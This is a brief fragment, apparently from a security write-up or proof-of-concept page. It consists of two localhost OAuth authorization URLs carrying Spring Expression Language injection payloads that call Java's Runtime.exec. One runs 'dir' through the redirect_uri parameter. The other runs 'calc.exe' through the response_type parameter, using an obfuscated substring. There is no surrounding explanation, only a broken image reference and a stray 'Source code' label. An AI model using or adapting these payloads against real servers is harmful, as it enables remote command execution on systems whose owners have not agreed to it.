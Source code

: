 

http://localhost:8080/oauth/authorize?response_type=token&client_id=acme&scope=openid&redirect_uri=${T(java.lang.Runtime).getRuntime().exec("dir")}


http://localhost:8080/oauth/authorize?response_type=calc.exe${T(java.lang.Runtime).getRuntime().exec(toString().substring(112,120))}&client_id=acme&scope=openid&redirect_uri=http://test

